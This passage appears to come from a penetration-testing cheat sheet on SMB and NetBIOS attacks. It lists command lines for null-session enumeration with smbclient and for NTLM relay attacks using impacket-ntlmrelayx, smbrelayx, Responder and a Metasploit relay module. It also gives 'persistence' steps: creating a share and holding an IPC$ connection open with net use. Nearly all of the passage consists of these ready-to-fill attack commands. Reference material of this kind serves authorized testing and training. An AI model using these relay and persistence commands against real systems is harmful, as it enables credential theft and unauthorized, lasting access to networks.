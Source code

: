 #### Null Session

*   **Connect via Null Session:** Exploits unauthenticated connections to gather information from a target system.

    ```bash
    smbclient -L //<target_ip>/IPC$ -N
    ```

#### \[\[Relay Attacks]]

*   **Tool:** \[\[Responder Cheat Sheet]], \[\[Impacket-NTLMRelayX Cheat Sheet]]

    ````bash
    impacket-ntlmrelayx -tf targets.txt -smb2support
    sudo responder -I <interface>
        ```
    ````

\


*   **Tool:** \[\[Responder Cheat Sheet]], \[\[Impacket-SMBRelayX]]

    ```bash
    impacket-smbrelayx -t <target_ip> -r <relay_ip>
    sudo responder -I <interface>    
    ```

\


*   **Tool:** \[\[Responder Cheat Sheet]], \[\[Metasploit]]

    ```bash
    msfconsole -x "use auxiliary/server/smb_relay; set TARGET <target_ip>; run"
    sudo responder -I <interface>    
    ```
* **Description:** Relay captured credentials to the target service, potentially gaining unauthorized access.

### Persistence

#### Creating Persistent Shares

*   **Tool:** \[\[SMBClient]]

    ```bash
    smbclient //<target_ip>/<share_name> -U <username> -c "mkdir /persistent_share"
    ```
* **Description:** Creates a hidden or persistent share that can be accessed later.

#### Backdoor through NetBIOS Session

*   **Tool:** \[\[Metasploit]], \[\[Custom Scripts]]

    ```bash
    net use \\<target_ip>\IPC$ /USER:<user> <password>
    ```
* **Description:** Establish a persistent connection to a shared resource, allowing continuous access.
